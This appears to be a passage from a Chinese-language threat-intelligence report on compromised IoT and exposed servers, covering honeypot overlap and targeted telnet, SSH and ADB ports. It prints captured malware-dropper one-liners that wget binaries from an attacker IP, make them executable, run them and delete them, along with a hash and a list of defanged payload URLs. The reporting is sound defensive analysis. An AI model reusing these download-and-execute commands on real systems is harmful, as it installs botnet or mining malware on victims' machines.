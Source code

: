 ```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessftp; chmod +x fearlessftp; ./fearlessftp; rm -rf fearlessftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesspftp; chmod +x fearlesspftp; ./fearlesspftp; rm -rf fearlesspftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesssh; chmod +x fearlesssh; ./fearlesssh; rm -rf fearlesssh
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessshit; chmod +x fearlessshit; ./fearlessshit; rm -rf fearlessshit
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessapache2; chmod +x fearlessapache2; ./fearlessapache2; rm -rf fearlessapache2
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesstelnetd; chmod +x fearlesstelnetd; ./fearlesstelnetd; rm -rf fearlesstelnetd

$ file fearlessapache2 
fearlessapache2: ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, stripped

47ace06c5f36937a6d5f4369ea1980a91f570a6d9d9b144e7f5b3f4006316f57  fearlessapache2*
```

*截至本文撰写时，未激活的链接:*

```
*http://185.244.25[.]153/YSDKOP.x86 
http://68.183.96[.]48/bins/hoho.x86 
http://cnc.junoland[.]xyz/x86hua
http://194.147.35[.]63/bins/Kuran.x86
http://46.29.165[.]33/bins/kowai.x86 
http://167.88.161[.]40/bins/mydick 
http://188.138.100[.]8/ankit/jno.x86
http://67.205.128[.]131/oxy.x86
http://80.211.94[.]16/Nurasu.x86_64; 
http://46.36.37[.]121/weed.sh
http://142.93.152[.]247/8UsA.sh*
```

# *受损的服务器*

*了解暴露的服务器后，我们可以通过将服务器 IP 与我们的全球欺骗网络活动相关联，来评估受到危害的那组服务器的活动。暴露的服务器列表中只有不到 5%的服务器与我们的欺骗网络中的服务器重叠，并且已经被发现执行恶意活动。然而，这 5%并不是全貌，因为有令人信服的证据表明行为者积极滥用服务器来挖掘加密货币，并且因为没有扫描或利用活动，这些服务器不会出现在我们的欺骗网络中。来自潜在的 1065 的受损服务器的数量仍然是未知的，但可以肯定地说，在某个时候，所有这些服务器都将成为或已经成为恶意活动的受害者。*

*下图显示了已知受损服务器的每个端口的活动。这些活动以 TCP 端口 23、2323、22 和 2222 为目标，这些端口代表了通过 telnet 和 SSH 凭据暴力利用的一般物联网漏洞。另一个臭名昭著的端口 5555 因 TR069 和 ADB 利用物联网易受攻击的设备而闻名。在过去 7 天中，我们发现针对端口 23 的扫描活动有所增加。*
